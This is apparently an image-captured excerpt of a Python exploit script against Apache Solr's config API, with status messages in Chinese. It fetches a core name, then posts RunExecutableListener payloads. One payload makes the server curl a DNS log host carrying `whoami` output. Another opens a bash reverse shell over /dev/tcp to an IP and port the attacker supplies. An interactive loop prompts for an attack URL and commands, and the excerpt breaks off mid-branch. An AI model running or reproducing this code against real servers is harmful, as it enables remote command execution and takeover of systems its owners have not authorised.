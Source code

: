 ```python
    print('+------------------------------------------')

def POC_1(target_url):
    core_url = target_url + "/solr/admin/cores?indexInfo=false&wt=json"
    try:
        response = requests.request("GET", url=core_url, timeout=10)
        core_name = list(json.loads(response.text)["status"])[0]
        print("\033[32m[o] 成功获得core_name,Url为：" + target_url + "/solr/" + core_name + "/config\033[0m")
        return core_name
    except:
        print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
        sys.exit(0)

def POC_2(target_url, core_name, dnslog_url, n):
    exp_url = target_url + "/solr/" + core_name + "/config"
    dnslog_url = "`whoami`." + dnslog_url
    headers = {
        "Content-Type": "application/json",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    payload_cmd = """
    {"add-listener":{"event":"postCommit","name":"newSearche-%s","class":"solr.RunExecutableListener","exe":"curl","dir":"/usr/bin/","args":["%s"]}}
    """ % (n, dnslog_url)

    response = requests.request("POST", url=exp_url, headers=headers, data=payload_cmd, timeout=30)
    if "add-listener" in response.text:
        print("\033[32m[o] 成功执行，请查看dnslog \033[0m")
    else:
        print("\033[31m[x] 漏洞利用失败 \033[0m")

def POC_3(target_url, core_name, n, ip, port):
    exp_url = target_url + "/solr/" + core_name + "/config"
    headers = {
        "Content-Type": "application/json",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    payload_cmd = """
        {"add-listener":{"event":"postCommit","name":"newSearche-%s","class":"solr.RunExecutableListener","exe":"sh","dir":"/bin/","args":["-c","bash -i >& /dev/tcp/%s/%s 0>&1"]}}
        """ % (n, ip, port)

    response = requests.request("POST", url=exp_url, headers=headers, data=payload_cmd, timeout=30)
    if "add-listener" in response.text:
        print("\033[32m[o] 成功执行 \033[0m")
    else:
        print("\033[31m[x] 漏洞利用失败 \033[0m")


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    core_name = POC_1(target_url)

    while True:
        n = random.randint(1, 9999)
        cmd = input("\033[35mCmd >>> \033[0m")
        if cmd == "exit":
            exit(0)
        elif cmd == "shell":
```
